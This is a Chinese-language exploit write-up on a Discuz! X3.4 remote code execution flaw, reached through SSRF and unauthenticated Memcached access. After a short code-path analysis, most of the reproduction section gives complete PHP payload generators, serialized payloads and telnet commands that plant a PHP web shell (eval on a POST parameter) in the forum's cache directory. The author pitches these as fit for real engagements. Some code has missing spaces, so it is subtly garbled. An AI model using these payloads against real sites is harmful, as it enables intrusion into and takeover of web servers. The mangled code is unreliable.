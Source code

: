 Discuz! X3.4 Memcached未授权访问导致的rce
=========================================

一、漏洞简介
------------

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

Dz 整合 Memcache
配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId25.jpg)

漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：

    forum.php?mod=ajax&inajax=yes&action=getthreadtypes
    ./source/module/forum/forum_ajax.php

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId26.png)

    ./template/default/common/footer_ajax.htm

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId27.png)

    ./source/function/function_core.php

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId28.png)

    ./source/function/function_core.php

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId29.png)

最后利用`preg_replace`函数`/e`参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

### 漏洞复现

***1 老版本漏洞利用流程：***

生成payload

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/e";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

然后telnet链接memcached

    telnet 1.1.1.1 11211
    set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId31.png)

最后访问**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

shell生成\*\*/data/cache/ln.php\*\*

***2 新版本漏洞利用流程***

生成payload有点变化(ps:只是少了一个e)

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId32.png)

访问:**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId33.png)

最后一定要恢复缓存

Delete Vtfbsm\_setting

成功写入文件

![](./.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId34.png)

参考链接
--------

> https://xz.aliyun.com/t/2018
